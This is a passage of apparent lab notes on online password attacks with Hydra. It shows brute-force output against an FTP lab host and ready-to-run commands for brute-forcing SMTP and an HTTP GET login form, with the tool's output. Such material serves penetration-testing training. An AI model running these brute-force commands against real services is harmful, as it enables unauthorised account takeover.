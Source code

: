 ```
[21][ftp] host: 10.10.131.9   login: ftp   password: # Suite 300, San Francisco, California, 94105, USA.                                                                          
[21][ftp] host: 10.10.131.9   login: ftp   password: #
[21][ftp] host: 10.10.131.9   login: ftp   password: # Priority ordered case-sensitive list, where entries were found                                                             
[21][ftp] host: 10.10.131.9   login: ftp   password: #
[21][ftp] host: 10.10.131.9   login: ftp
[21][ftp] host: 10.10.131.9   login: ftp   password: index
[21][ftp] host: 10.10.131.9   login: ftp   password: images
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-22 09:36:16

```

**SMTP**
Similar to FTP servers, we can also brute-force SMTP servers using hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.

```bash
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 

```

**HTTP Login Pages**

In this scenario, we will brute-force HTTP login pages. To do that, first, you need to understand what you are brute-forcing. Using hydra, it is important to specify the type of HTTP request, whether GET or POST. Checking hydra options: hydra http-get-form -U, we can see that hydra has the following syntax for the http-get-form option:

` <url>:<form parameters>:<condition string>[:<optional>[:<optional>] `

As we mentioned earlier, we need to analyze the HTTP request that we need to send, and that could be done either by using your browser dev tools or using a web proxy such as Burp Suite.

```bash
user@machine$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (http://www.thc.org/thc-hydra) starting at 2021-10-13 08:06:22 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 500 login tries (l:1/p:500), ~32 tries per task 
[DATA] attacking http-get-form://10.10.x.x:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php 
[80][http-get-form] host: 10.10.x.x   login: admin password: xxxxxx 
1 of 1 target successfully completed, 1 valid password found 
Hydra (http://www.thc.org/thc-hydra) 
finished at 2021-10-13 08:06:45
```

-l admin  we are specifying a single username, use-L for a username wordlist
